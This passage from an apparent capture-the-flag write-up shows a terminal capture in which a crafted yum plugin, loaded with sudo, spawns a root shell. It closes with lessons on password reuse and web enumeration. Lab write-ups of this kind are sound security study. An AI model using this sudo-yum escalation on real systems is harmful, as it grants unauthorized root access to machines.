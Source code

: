 ```
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[j------n@dailybugle ~]$ 
[j------n@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
```

## Lessons learned

* This was (yet another) great lesson in not underestimating the frequency with which people re-use passwords!
* Equally, fully exploring/enumerating the web directories of a server running a web application should always be a priority!
* With great power must also come great responsibility.
